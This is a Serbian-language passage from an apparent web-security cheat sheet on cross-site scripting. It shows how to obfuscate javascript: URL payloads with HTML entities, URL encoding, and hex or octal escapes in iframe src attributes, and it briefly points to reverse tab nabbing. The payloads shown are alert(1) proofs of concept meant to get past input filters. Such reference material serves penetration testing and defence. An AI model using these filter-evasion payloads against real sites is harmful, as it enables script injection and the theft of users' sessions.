 **Ostale trikove zamagljivanja**

_**U ovom slučaju, kodiranje HTML-a i trik sa kodiranjem Unicode-a iz prethodne sekcije takođe je validan jer se nalazite unutar atributa.**_

```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```

Osim toga, postoji još jedan **koristan trik** za ove slučajeve: **Čak i ako je vaš unos unutar `javascript:...` URL enkodiran, biće URL dekodiran pre nego što se izvrši.** Dakle, ako trebate **izbeći** iz **stringa** koristeći **jednostruki navodnik** i primetite da **je URL enkodiran**, zapamtite da **nije važno,** biće **interpretiran** kao **jednostruki navodnik** tokom **izvršavanja**.

```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```

Napomena da ako pokušate **koristiti i** `URLencode + HTMLencode` u bilo kom redosledu za enkodiranje **payload-a**, to **neće** **raditi**, ali možete **ih mešati unutar payload-a**.

**Korišćenje heksadecimalnog i oktalnog enkodiranja sa `javascript:`**

Možete koristiti **heksadecimalno** i **oktalno enkodiranje** unutar atributa `src` elementa `iframe` (barem) da biste deklarisali **HTML oznake za izvršavanje JS**:

```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```

### Reverse tab nabbing

### Obrnuto preuzimanje kartice

```javascript
<a target="_blank" rel="opener"
```

Ako možete ubaciti bilo koji URL u proizvoljni **`<a href=`** tag koji sadrži atribute **`target="_blank" and rel="opener"`**, proverite **sledeću stranicu da biste iskoristili ovu funkcionalnost**:

{% content-ref url="../reverse-tab-nabbing.md" %}
[reverse-tab-nabbing.md](../reverse-tab-nabbing.md)
{% endcontent-ref %}

### Bypass na događajne rukovaoca
